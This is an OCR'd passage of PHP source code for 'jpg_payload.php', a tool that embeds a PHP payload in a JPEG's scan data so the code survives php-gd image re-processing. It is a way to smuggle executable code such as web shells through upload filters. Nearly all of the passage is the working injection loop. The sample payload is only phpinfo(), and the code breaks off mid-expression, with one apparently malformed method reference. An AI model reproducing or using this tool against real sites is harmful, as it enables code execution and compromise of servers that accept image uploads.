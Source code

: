 ```plain
    In case of successful injection you will get a specially crafted image, which should be uploaded again.
    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.
    Sergey Bobrov @Black2Fan.
    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
    */
 
    $miniPayload = "<?=phpinfo();?>";
 
 
    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }
 
    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }
 
    set_error_handler("custom_error_handler");
 
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;
 
        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }
 
        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
```